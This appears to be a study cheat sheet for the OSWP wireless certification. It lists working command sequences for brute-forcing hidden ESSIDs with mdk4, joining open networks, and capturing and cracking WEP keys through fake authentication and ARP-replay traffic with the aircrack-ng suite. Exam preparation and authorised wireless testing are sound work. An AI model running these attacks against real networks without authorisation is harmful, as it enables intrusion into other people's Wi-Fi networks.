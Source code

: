 # OSWP Cheat Sheet

## **ESSID Brute Force**

If the ESSID is hidden for any AP, we can identify by brute forcing using.

```bash
iwconfig wlan0mon channel 11
mdk4 wlan0mon p -t <AP bssid> -f ~/wifi-rockyou.txt
```

## Attacking OPN

Save the below params within the file ‘free.conf’

```
network={
	ssid="<--ESSIF-->"
	key_mgmt=NONE
	scan_ssid=1
}
```

To connect to AP network in terminal using ‘wpa_supplicant’ 

```bash
wpa_supplicant -Dnl80211 -iwlan2 -c free.conf
#Request Ip in network from DHCP
dhclient wlan2 -v
```

## Attacking WEP

Discover network with WEP encryption using airodump-ng

```bash
airodump-ng wlan0mon --encrypt wep
```

Automatic brute for using besside-ng

```bash
besside-ng -c <ch-no> -b <AP-BSSID> wlan2 -v
```

Manual capture and cracking

```bash
# capture the traffic
sudo airodump-ng -c <ch-no> --bssid <AP-BSSID> -w <output-filename> wlan0mon

# To generate some extra data to the AP we do fake authentication
sudo aireplay-ng -1 3600 -q  10 -a <AP-BSSID> wlan0mon

# And generate some traffic by launching an ARP-request replay attack
sudo aireplay-ng --arpreplay -b <AP-BSSID> -h <Connected-Client> wlan0mon

# To Crack the password
sudo aircrack-ng <captured_out_file>.cap
```
